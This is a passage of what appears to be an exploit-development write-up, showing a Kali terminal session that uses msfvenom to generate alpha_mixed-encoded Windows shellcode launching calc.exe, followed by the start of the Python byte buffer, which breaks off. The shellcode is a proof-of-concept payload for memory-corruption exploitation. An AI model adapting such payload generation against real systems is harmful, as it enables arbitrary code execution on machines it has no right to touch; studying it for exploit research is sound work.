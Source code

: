 ![](/assets/img/Findings3/13.png)

## Shellcode

Some shellcode that spawns calculator is generated:

```term_session
root@kali:~# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 448 (iteration=0)
x86/alpha_mixed chosen with final size 448
Payload size: 448 bytes
Final size of py file: 2188 bytes
buf =  b""
buf += b"\x89\xe1\xdb\xc4\xd9\x71\xf4\x5e\x56\x59\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += b"\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x59\x6c\x68\x68\x6b"
buf += b"\x32\x35\x50\x43\x30\x35\x50\x73\x50\x4b\x39\x78\x65"
buf += b"\x76\x51\x79\x50\x32\x44\x4e\x6b\x52\x70\x36\x50\x6e"
buf += b"\x6b\x71\x42\x44\x4c\x4e\x6b\x31\x42\x44\x54\x4e\x6b"
buf += b"\x73\x42\x35\x78\x54\x4f\x6e\x57\x52\x6a\x74\x66\x46"
buf += b"\x51\x4b\x4f\x4c\x6c\x67\x4c\x50\x61\x73\x4c\x75\x52"
buf += b"\x64\x6c\x55\x70\x69\x51\x7a\x6f\x66\x6d\x76\x61\x7a"
buf += b"\x67\x59\x72\x5a\x52\x42\x72\x53\x67\x4e\x6b\x63\x62"
buf += b"\x42\x30\x6e\x6b\x73\x7a\x45\x6c\x6c\x4b\x42\x6c\x46"
buf += b"\x71\x33\x48\x4d\x33\x51\x58\x63\x31\x5a\x71\x42\x71"
buf += b"\x6e\x6b\x42\x79\x67\x50\x33\x31\x68\x53\x4c\x4b\x53"
buf += b"\x79\x65\x48\x49\x73\x37\x4a\x32\x69\x4e\x6b\x46\x54"
buf += b"\x4c\x4b\x47\x71\x7a\x76\x34\x71\x59\x6f\x4c\x6c\x4b"
```